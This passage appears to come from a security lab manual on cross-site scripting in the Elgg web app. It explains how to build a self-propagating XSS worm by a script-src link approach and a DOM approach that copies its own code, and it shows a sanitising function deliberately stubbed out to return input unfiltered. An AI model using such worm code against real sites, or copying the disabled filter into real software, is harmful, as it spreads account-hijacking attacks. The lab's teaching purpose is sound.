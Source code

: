 **Link Approach:** If the worm is included using the `src` attribute in the `<script>`tag, writing self-
propagating worms is much easier. We have discussed the `src` attribute in Task 1, and an example is given
below. The worm can simply copy the following `<script>` tag to the victim’s profile, essentially infecting
the profile with the same worm.
```
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
```

**DOM Approach:** If the entire JavaScript program (i.e., the worm) is embedded in the infected profile, to
propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from
the web page. An example of using DOM APIs is given below. This code gets a copy of itself, and displays
it in an alert window:
```
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ¿
    var jsCode = document.getElementById("worm").innerHTML; ¡
    var tailTag = "</" + "script>"; ¬

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); √

    alert(jsCode);
</script>
```
It should be noted that `innerHTML`(line¡) only gives us the inside part of the code, not including the
surrounding `script` tags. We just need to add the beginning tag `<script id`="worm">(line¿) and
the ending tag `</script>` (line¬) to form an identical copy of the malicious code.
When data are sent in HTTP POST requests with the `Content-Type` set to `application/x-www-
form-urlencoded`, which is the type used in our code, the data should also be encoded. The encoding
scheme is calledURL encoding, which replaces non-alphanumeric characters in the data with `%HH`, a per-
centage sign and two hexadecimal digits representing the ASCII code of the character. The `encodeURICom
ponent`()function in line√is used to URL-encode a string.


**Note:** In this lab, you can try both Link and DOM approaches, but the DOM approach is required, because
it is more challenging and it does not rely on external JavaScript code.

### 3.8 Elgg’s Countermeasures

This sub-section is only for information, and there is no specific task to do. It shows how Elgg defends
against the XSS attack. Elgg does have built-in countermeasures, and we have disabled them to make the
attack work. Actually, Elgg uses two countermeasures. One is a custom built security plugin `HTMLawed`,
which validates the user input and removes the tags from the input. We have commented out the invocation
of the plugin inside the `filtertags`()function in `input.php`, which is located inside `vendor/
elgg/elgg/engine/lib/`. See the following:
```
function filter_tags($var) {
        // return elgg_trigger_plugin_hook(’validate’, ’input’,   null, $var);
        return $var;
}
```
In addition toHTMLawed, Elgg also uses PHP’s built-in method `htmlspecialchars`()to encode